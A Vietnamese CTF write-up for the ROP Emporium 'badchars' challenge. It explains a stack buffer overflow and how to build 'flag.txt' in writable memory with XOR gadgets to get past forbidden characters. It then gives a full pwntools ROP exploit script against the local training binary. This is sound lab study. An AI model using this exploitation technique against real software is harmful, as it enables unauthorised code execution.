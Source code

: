 # ROP_Emporium - badchars

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
badchars: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6c79e265b17cf6845beca7e17d6d8ac2ecb27556, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:

![pwnme2.png](images/pwnme2.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

cũng như usefulGadgets()

![usefulGadgets.png](images/usefulGadgets.png)

# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành **flag.txt** để hàm này đọc flag file và in ra

--> ROP_chain

# 3. Khai thác

Ta sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây

![usefulFunction2.png](images/usefulFunction2.png)

Đối với usefulGadgets() có **xor    BYTE PTR [r15],r14b** dùng để thực hiện việc XOR một byte được chỉ định trong thanh ghi R14 với byte tại địa chỉ được lưu trữ trong thanh ghi R15 và được lưu trữ tại địa chỉ được chỉ định trong thanh ghi R15

![usefulGadgets2.png](images/usefulGadgets2.png)

Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:

![vmmap.png](images/vmmap.png)

ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:

![strstr.png](images/strstr.png)

ở đây mình sẽ lấy **0x6010f0**

# Quan trọng

Chạy thử chương trình:

![run.png](images/run.png)

Như tên chương trình **badchars**, khi ta nhập vào nhưng ký tự **'x', 'g', 'a', '.'** thì khi lưu vào thanh ghi thì ký tự đó bị biến đổi

Sử dụng gdb nhập vào input với b"a"*0x50 ta được:

![gdb1.png](images/gdb1.png)

Chính bởi việc các ký tự **'x', 'g', 'a', '.'** bị cấm nên ta sẽ chỉ ghi được **fl___t_t** của **flag.txt** muốn đọc nên ta sẽ tận dụng **xor    BYTE PTR [r15],r14b** của usefulGadgets() để biến đổi byte và lưu vào địa chỉ của r15.

ROP_chain ta sẽ làm như sau:

- pop_r12_r13_r14_r15 
- đưa giá trị "fl,,,t,t" vào r12 do các ký tự **'x', 'g', 'a', '.'** bị cấm
- đưa địa chỉ lưu chuỗi vào r13
- đưa byte cần xor với [r15] vào r14
- đưa địa chỉ chứa byte cần xor với r14 vào r15 và sau khi xor lưu lại [r15]
- mov_r12_r13 dùng để đẩy giá trị r12 vào [r13]
- dùng hàm usefulGadgets() để sử dụng phép **xor    BYTE PTR [r15],r14b**
- lặp lại 3 lần phép **xor    BYTE PTR [r15],r14b** để sửa giá trị chuỗi từ "fl,,,t,t" thành "flag.txt"
- pop thanh ghi rdi
- đưa địa chỉ chứa chuỗi "flag.txt" vào rdi
- gọi đến hàm **printf_file** sau khi đã setup xong rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./badchars', checksec=False)

p = process("./badchars")

#gdb.attach(p, gdbscript='''
#b*pwnme+268
#c
#x/s 0x6010f0
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
mov_r12_r13 = 0x0000000000400634
pop_r12_r13_r14_r15 = 0x000000000040069c
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x6010f0                #địa chỉ lưu chuỗi "flag.txt"
   
payload1 = flat(
	cyclic(0x28),
	pop_r12_r13_r14_r15,
	b"fl,,,t,t",
	null_addr,
	p64(2),                         #2 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "." có giá trị 0x2e và lưu vào null_addr+4        "fl,,.t,t"
	null_addr+4,
	mov_r12_r13,
	gadget,
	
	pop_r14_r15,
	p64(75),                        #75 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "g" có giá trị 0x67 và lưu vào null_addr+3       "fl,g.t,t"
	null_addr+3,
	gadget,
	
	pop_r14_r15,
	p64(77),                        #77 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "a" có giá trị 0x61 và lưu vào null_addr+2       "flag.t,t"
	null_addr+2,
	gadget,
	
	pop_r14_r15,
	p64(84),                        #84 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "x" có giá trị 0x78 và lưu vào null_addr+2       "flag.txt"
	null_addr+6,
	gadget,
	
	pop_rdi_ret,
	null_addr,
	vuln+9
	
    )

p.sendlineafter(b">",payload1)
p.interactive()


```
# 4. Lấy flag

![flag.png](images/flag.png)


